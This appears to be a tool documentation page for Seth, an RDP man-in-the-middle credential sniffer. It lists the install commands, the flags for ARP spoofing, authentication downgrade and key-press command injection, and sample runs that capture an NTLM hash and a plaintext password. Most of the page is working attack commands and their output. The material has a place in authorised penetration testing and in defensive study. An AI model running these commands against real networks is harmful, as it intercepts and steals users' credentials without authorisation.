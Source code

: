 ```yaml
---
title : "Seth"
# pre : ' '
description : "RDP credential sniffer - Man in the Middle RDP"
date : 2020-12-01T08:18:42+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## Seth

RDP credential sniffer - Man in the Middle RDP

## Installation

Requirements:

```plain
sudo apt install dsniff tcpdump
```

```plain
git clone https://github.com/SySS-Research/Seth.git
```

## Usage

```plain
seth.py [-h] [-d] [-f] [-p LISTEN_PORT] [-b BIND_IP] [-g {0,1,3,11}]
               [-j INJECT] -c CERTFILE -k KEYFILE
               target_host [target_port]
```

## Flags

```plain
RDP credential sniffer -- Adrian Vollmer, SySS GmbH 2017

positional arguments:
  target_host           target host of the RDP service
  target_port           TCP port of the target RDP service (default 3389)

optional arguments:
  -h, --help            show this help message and exit
  -d, --debug           show debug information
  -f, --fake-server     perform a 'fake server' attack
  -p LISTEN_PORT, --listen-port LISTEN_PORT
                        TCP port to listen on (default 3389)
  -b BIND_IP, --bind-ip BIND_IP
                        IP address to bind the fake service to (default all)
  -g {0,1,3,11}, --downgrade {0,1,3,11}
                        downgrade the authentication protocol to this (default
                        3)
  -j INJECT, --inject INJECT
                        command to execute via key press event injection
  -c CERTFILE, --certfile CERTFILE
                        path to the certificate file
  -k KEYFILE, --keyfile KEYFILE
                        path to the key file
```

## Examples

### Start MiTM attack

| Attacker IP | IP to ARP spoof for | Target RDP to connect to |
| :-: | :-: | :-: |
10.10.10.10 | 10.10.10.15 | 10.10.10.20

```plain
./seth.sh eth0 10.10.10.{10,15,20}
```

```plain
$ sudo ./seth.sh eth0 10.10.10.{10,15,20}
███████╗███████╗████████╗██╗  ██╗
██╔════╝██╔════╝╚══██╔══╝██║  ██║   by Adrian Vollmer
███████╗█████╗     ██║   ███████║   seth@vollmer.syss.de
╚════██║██╔══╝     ██║   ██╔══██║   SySS GmbH, 2017
███████║███████╗   ██║   ██║  ██║   https://www.syss.de
╚══════╝╚══════╝   ╚═╝   ╚═╝  ╚═╝
[*] Linux OS detected, using iptables as the netfilter interpreter
[*] Spoofing arp replies...
[*] Turning on IP forwarding...
[*] Set iptables rules for SYN packets...
[*] Waiting for a SYN packet to the original destination...
[...]
[*] Cleaning up...
[*] Done
```

### Capture of plaintext credentials

```plain
sudo ./seth.sh enp0s31f6 10.10.10.5 10.10.10.7 10.10.10.10
[*] Linux OS detected, using iptables as the netfilter interpreter
[*] Spoofing arp replies...
[*] Turning on IP forwarding...
[*] Set iptables rules for SYN packets...
[*] Waiting for a SYN packet to the original destination...
[+] Got it! Original destination is 10.10.10.10
[*] Clone the x509 certificate of the original destination...
[*] Adjust iptables rules for all packets...
[*] Run RDP proxy...
Listening for new connection
Connection received from 10.10.10.7:53063
Warning: RC4 not available on client, attack might not work
Downgrading authentication options from 11 to 3
Listening for new connection
Enable SSL
johndo@example.com:::7c70ee2cd148b341:ee85ef730780002e00370030000000000000000000
Tamper with NTLM response
Downgrading CredSSP
Connection lost ([Errno 104] Connection reset by peer)
[...REDACTED...]
Connection received from 10.10.10.7:53067
Warning: RC4 not available on client, attack might not work
Enable SSL
Listening for new connection
'NoneType' object has no attribute 'getsockopt'
Hiding forged protocol request from client
.\johndo@example.com:Welkom1234
[*] Cleaning up...
[*] Done
```

### Example capture of hashes

![Example](images/example.png)

## URL List

- [GitHub.com - Seth](https://github.com/SySS-Research/Seth)
